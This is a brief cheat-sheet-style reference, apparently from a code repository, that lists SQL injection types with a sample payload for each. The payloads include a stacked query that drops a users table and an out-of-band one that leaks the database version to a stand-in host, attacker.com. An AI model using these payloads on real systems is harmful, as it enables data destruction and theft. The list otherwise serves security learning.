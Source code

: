 Types of sql injection:
- `Inline Queries`: Uncommon one that need custom implementation. `SELECT (SELECT @@version) from'
- `Stacked Queries`: Making mulitple of queries after the original one.  `; DROP TABLE users`
- `Error-based`: If the website show error messages, then we abuse this by feeding our custom query to see it as error. `AND GTID_SUBSET(@@version,0)'
- `UNION query-based`: rely on Unions. `UNION ALL SELECT 1,@@version,3`
- `Boolean-based blind`: rely on True or false result. `AND 1=1`
- `Time-based    blind`: laverage time to make sure our query have been executed.`AND 1=IF(2>1,SLEEP(5),0)`
- `Out-of-band   blind`: when all methods fails, we try to ping back to our machine. `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))`

